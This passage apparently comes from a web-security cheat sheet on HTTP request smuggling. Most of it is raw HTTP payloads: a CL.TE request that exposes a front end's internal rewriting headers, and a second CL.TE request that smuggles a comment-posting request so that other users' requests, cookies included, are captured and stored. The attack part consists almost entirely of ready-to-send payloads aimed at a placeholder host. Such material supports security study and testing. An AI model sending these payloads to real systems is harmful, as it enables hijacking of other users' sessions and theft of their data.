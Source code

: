 ```html
<input id="email" value="user@normal-user.net" type="text">
```

Use the following request smuggling attack to reveal the rewriting

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=
```

```html
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

### Capturing other users' requests

**CL.TE**

Smuggle a request that submits data to the storage function, with the parameter containing the data to store positioned last in the request.

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 198
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Cookie: session=dL3MaAvRhsnHdriaFnPxSdvXdt3jx6B1
Content-Length: 650

csrf=ihmEx8D&postId=1&name=test&email=test@test.test&comment=
```

